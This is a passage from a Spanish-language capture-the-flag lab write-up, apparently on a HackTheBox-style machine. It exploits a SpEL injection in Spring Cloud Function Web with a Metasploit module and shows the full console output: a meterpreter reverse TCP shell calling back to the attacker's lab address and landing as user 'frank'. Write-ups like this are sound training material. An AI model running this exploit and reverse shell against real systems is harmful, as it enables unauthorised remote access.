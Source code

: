 ```
	</build>

</project>
```
Viendo algunas versiones nos encontranos con **Spring Cloud Function Web**, buscando CVE nos encontramos que es vulnerable a SpEL injection.

## Explotación

### Explotación manual

En Proceso...

### Explotación con MetaSploit

Nos abrimos metasploit

```
msfconsole
```
Usando de apoyo este [foro](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/spring_cloud_function_spel_injection) nos guiaremos. Una vez dentro de metasploit  haremos lo siguiente.

```
[msf](Jobs:0 Agents:0) >> use exploit/multi/http/spring_cloud_function_spel_injection
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> set RHOST 10.129.178.241
RHOST => 10.129.178.241
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> set LHOST 10.10.14.170
LHOST => 10.10.14.170
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> run

[*] Started reverse TCP handler on 10.10.14.170:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.129.178.241
[*] Meterpreter session 1 opened (10.10.14.170:4444 -> 10.129.178.241:43644) at 2023-03-12 21:25:11 -0400

(Meterpreter 1)(/) > shell
Process 76003 created.
Channel 1 created.
whoami && id
frank
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```
Ahora para mayor comodidad nos pasaremos esa shell mediante reverse shell, comprobamos si esta python3 y efectivamente esta instalado.
